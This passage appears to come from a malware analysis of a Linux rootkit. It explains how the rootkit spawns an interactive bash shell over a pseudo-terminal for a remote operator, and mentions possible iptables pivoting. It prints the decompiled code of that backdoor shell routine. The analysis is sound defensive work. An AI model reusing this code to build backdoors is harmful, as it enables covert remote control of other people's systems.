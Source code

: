 <h4>The rootkit can also execute command by shell instance and modify settings on the system. The first idea with a port forwarding for a red team rest to use it with a modification of the iptables for forward the data node to node as pivoting measure on the infrastructure. This rest doesn't exclude that the group use this process for the pivoting in the infrastructure not even a function is specifically implemented in the rootkit.</h4>

<h4>This initiates the bash instance, this begins to open the address of the tty console by ptmx_open for check if this can use it after making a fork for separate process group leader anymore and hence setting the sid and pgid of the new session to actual pid in calling execve for launch the bash instance (avoid throwing EPERM by the kernel due process groups cannot move between sessions).</h4>

```cpp
 var_44h._0_4_ = (uint32_t)arg1;
 fd = 0xffffffff;
 var_10h = 0xffffffff;
 pid._0_4_ = -1;
 fildes = 0;
 fd = ptmx_open((char *)&var_30h);
 if (fd != 0xffffffff) {
  var_44h._6_2_ = (undefined2)arg_20h;
  var_44h._4_2_ = (undefined2)((uint64_t)arg_20h >> 0x20);
  ioctl(fd, 0x5414, (int64_t)&var_44h + 4);
  pid._0_4_ = fork();
  if ((int32_t)pid == 0) {
   fildes = 3;
   while (fildes < 0x400) {
 close(fildes);
 fildes = fildes + 1;
   }
   iVar1 = setsid();
   if (-1 < iVar1) {
 var_10h = open64(&var_30h, 2);
 if (var_10h != 0xffffffff) {
  dup2(var_10h, 0);
  dup2(var_10h, 1);
  dup2(var_10h, 2);
  close(var_10h);
  chdir(0x4084d5);
  execve("/bin/bash", earg, envp);
 }
   }
   exit(0);
  }
  if (0 < (int32_t)pid) {
   uVar2 = CalcHeaderCrc();
   arg_10h._0_4_ = uVar2;
   encrypt_code(&arg_10h, 0x18, arg3);
   iVar1 = safesend((uint64_t)(uint32_t)var_44h, &arg_10h, 0x18);
   if (iVar1 != 0) {
 LoopData((uint64_t)fd, (uint64_t)(uint32_t)var_44h);
 kill((int32_t)pid, 9);
 wait(wstatus);
   }
  }
 }
 close(fd);
 return (int32_t)pid;
```
